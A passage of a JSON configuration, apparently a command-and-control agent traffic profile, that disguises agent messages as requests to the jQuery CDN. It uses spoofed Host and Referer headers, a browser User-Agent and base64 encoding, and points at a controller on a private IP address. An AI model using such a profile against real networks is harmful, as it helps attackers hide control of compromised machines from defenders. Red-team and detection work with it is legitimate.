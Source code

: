 ```JSON
              "parameters": ["30"]
            },
            {
              "function": "base64",
              "parameters": []
            }
          ]
        }
      ],
      "Body": []
    }]
  },
  "POST": {
    "ServerBody": [],
    "ServerCookies": {},
    "ServerHeaders": {
      "Server": "NetDNA-cache/2.2",
      "Cache-Control": "max-age=0, no-cache",
      "Pragma": "no-cache",
      "Connection": "keep-alive",
      "Content-Type": "application/javascript; charset=utf-8"
    },
    "AgentMessage": [{
      "urls": ["http://192.168.205.151:9000"],
      "uri": "/download.php",
      "urlFunctions": [],
      "QueryParameters": [
        {
          "name": "bob2",
          "value": "justforvalidation",
          "transforms": []
        }
      ],
      "AgentHeaders": {
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Host": "code.jquery.com",
        "Referer": "http://code.jquery.com/",
        "Accept-Encoding": "gzip, deflate",
        "User-Agent": "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko"
      },
      "Cookies": [
        {
          "name": "BobCookie",
          "value": "splat",
          "transforms": [
            {
              "function": "prepend",
              "parameters": [
                "splatity_"
              ]
            }
          ]
        }
      ],
      "Body": [
        {
          "function": "base64",
          "parameters": []
        },
        {
          "function": "prepend",
          "parameters": ["<html>"]
        },
```